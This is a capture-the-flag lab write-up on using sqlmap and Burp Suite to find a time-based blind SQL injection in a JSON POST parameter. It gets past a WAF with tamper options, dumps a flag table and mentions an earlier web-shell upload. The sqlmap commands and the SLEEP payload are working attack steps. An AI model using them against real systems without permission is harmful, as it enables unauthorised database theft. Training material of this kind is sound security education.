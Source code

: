 ## SQLMap Essentials - Skills Assessment Write-up

Before diving into the solution for this final challenge in the **SQLMap Essentials** module, I want to briefly mention the previous module **SQL Injection Fundamentals (medium level)**. Compared to this one (labeled as *easy*), the previous assessment was actually more straightforward.


### Quick overview of the "Skills Assessment - SQL Injection Fundamentals"

-   Used **Union-based SQLi** to determine the number of columns in the table
-   Checked local OS file write permissions
-   Uploaded a **web shell** into the default web directory (reference: [SecLists Default Web Root Directories](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)
-   Searched the system for files named `*flag*.txt` and successfully retrieved the flag


### Current Task - SQLMap Essentials

We were provided with a URL to identify and exploit via SQL injection.

First attempt with a simple SQLMap command:

``` bash
sqlmap -u 'http://94.237.61.242:41666/' --batch --dump
```

Resulted in the following error:

    [CRITICAL] no parameter(s) found for testing in the provided data (e.g. GET parameter 'id' in 'www.site.com/index.php?id=1'). You are advised to rerun with '--crawl=2'

Following the suggestion:

``` bash
sqlmap -u 'http://94.237.61.242:41666/' --batch --dump --crawl=3
```

But this time:

    [WARNING] no usable links found (with GET parameters)

#### Step 1: Inspecting requests with Burp Suite

Since no exploitable GET parameters were present, I turned to **Burp Suite** to analyze the traffic. While browsing the application, I noticed a **POST request** with JSON data in the body:

``` json
{"id":1}
```

![](screenshots/1.png)

![](screenshots/2.png)

#### Step 2: Running SQLMap with POST JSON data

``` bash
sqlmap -u 'http://94.237.61.242:41666/action.php' --batch --dump --data '{"id":1}' --level 5 --risk 3 --dbms=mysql
```

Error message received:

    [CRITICAL] all tested parameters do not appear to be injectable. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'

#### Step 3: Adding `--random-agent`

``` bash
sqlmap -u 'http://94.237.61.242:41666/action.php' --batch --dump --data '{"id":1}' --level 5 --risk 3 --dbms=mysql --random-agent
```

SQLMap successfully detected an injection point, but couldn't extract data directly:

```
    sqlmap identified the following injection point(s) with a total of 3088 HTTP(s) requests:
    ---
    Parameter: JSON id ((custom) POST)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: {"id":"1 AND (SELECT 2950 FROM (SELECT(SLEEP(5)))wBmv)"}
    ---
```

However, retrieval attempts failed:

    [ERROR] unable to retrieve the number of databases

#### Step 4: Using `--no-cast` and bypassing WAF

Tried with `--no-cast`:

``` bash
sqlmap -u 'http://94.237.61.242:41666/action.php' --batch --dump --data '{"id":1}' --level 5 --risk 3 --dbms=mysql --no-cast
```

No success. Then attempted to bypass potential WAF filtering with `--tamper`:

``` bash
sqlmap -u 'http://94.237.61.242:41666/action.php' --batch --dump --data '{"id":1}' --level 5 --risk 3 --dbms=mysql --random-agent --no-cast --tamper=between
```

This time SQLMap successfully retrieved database information:

    [INFO] fetching tables for database: 'production'

#### Step 5: Extracting the final flag

The challenge required retrieving data from the `final_flag` table. I searched and dumped its contents:

``` bash
sqlmap -u 'http://94.237.61.242:41666/action.php' --batch --data '{"id":1}' --level 5 --risk 3 --dbms=mysql --random-agent --no-cast --tamper=between --search -T "final_flag"
```

SQLMap successfully extracted the table and its contents:

```
    Database: production
    [1 table]
    +------------+
    | final_flag |
    +------------+
```

![](screenshots/3.png)


## Conclusion

This challenge highlighted the importance of carefully analyzing application requests beyond simple GET parameters. Key takeaways:

-	Burp Suite inspection revealed a hidden injection point in POST JSON data
-	SQLMap requires proper fine-tuning (`--random-agent`, `--no-cast`, `--tamper`) to bypass protections
-	Even "easy" challenges may require persistence and multiple bypass attempts
